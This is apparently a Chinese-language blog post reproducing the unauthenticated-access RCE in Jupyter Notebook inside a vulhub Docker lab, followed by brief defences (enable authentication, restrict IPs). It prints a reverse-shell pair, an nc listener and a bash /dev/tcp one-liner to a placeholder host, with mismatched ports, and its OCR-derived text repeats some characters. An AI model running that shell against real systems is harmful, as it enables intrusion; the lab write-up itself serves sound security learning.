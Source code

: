 ```yaml
---
title: Jupyter Notebook 未授权访问漏洞简单复现
top: false
cover: false
categories:
- 渗透测试
tags:
- 未授权访问
- 渗透测试
- Jupyter Notebook
abbrlink: 59687
date: 2020-05-25 23:12:17
keywords:
summary:
img:
password:
---
```



#### 简介及危害
Jupyter Notebook(此前被称为 IPython notebook)是一一个交互式笔记本,支支持运行行行 40 多种编
程语言言。 如果管理理员未为Jupyter Notebook配置密码,将导致未授权访问漏漏洞洞,游客可在其中创建一一
个console并执行行行任意Python代码和命令。


#### 环境介绍
```bash
# 目标
环境来源：https://github.com/vulhub/vulhub/blob/master/jupyter/notebook-rce/
ip地址： 192.168.0.100
```


#### 开始测试
1.运行测试环境：
```bash
docker-compose up -d
```

2.访问目标地址 http://192.168.0.100:8888

3.New > Terminal 创建控制台：可以直接执行任意命令
![](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/smurf%E6%94%BB%E5%87%BB.png)

4.后面就直接执行任意命令，比如反弹shell等
```bash
# 本机监听
nc -lvp 5555

# 目标执行
bash -i >& /dev/tcp/x.x.x.x/8080 0>&1
```


#### 防御手段
- 开启身份验证, 防止止未经授权用用户访问
- 访问控制策略略, 限制IP访问, 绑定固定IP
